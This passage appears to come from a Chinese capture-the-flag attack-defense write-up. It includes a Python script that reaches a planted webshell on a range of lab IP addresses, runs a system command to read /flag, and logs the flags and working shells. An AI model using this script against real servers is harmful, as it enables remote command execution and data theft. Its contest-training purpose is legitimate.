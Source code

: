 ![ctf3](/assets/themes/images/ctf/3.png)  
发现后门后，第一时间删除，同时利用这个漏洞发起第一波攻击，如果利用菜刀连，显然不够优雅，还没连完，人家估计都删的差不多了，因此这个漏洞虽然是送分，但拼的是手速，因此得提前准备好脚本： 
 
    #coding=utf-8
    import requests
    url="http://192.168.71."
    url1=""
    shell="/Upload/index.php"
    passwd="abcde10db05bd4f6a24c94d7edde441d18545" 
	port="80"
	payload = {passwd: 'system(\'cat /flag\');'}
	f=open("webshelllist.txt","w") 
	f1=open("firstround_flag.txt","w")
	for i in [51,52,53,11,12,13,21,22,23,31,32,33,41,42,43,71,72,73,81,82,83]: 
	    url1=url+str(i)+":"+port+shell
	    try:
	        res=requests.post(url1,payload,timeout=1)
	        if res.status_code == requests.codes.ok:
	            print url1+" connect shell sucess,flag is "+res.text
	            print >>f1,url1+" connect shell sucess,flag is "+res.text
	            print >>f,url1+","+passwd
	        else:
	            print "shell 404"
	    except:
	        print url1+" connect shell fail"
			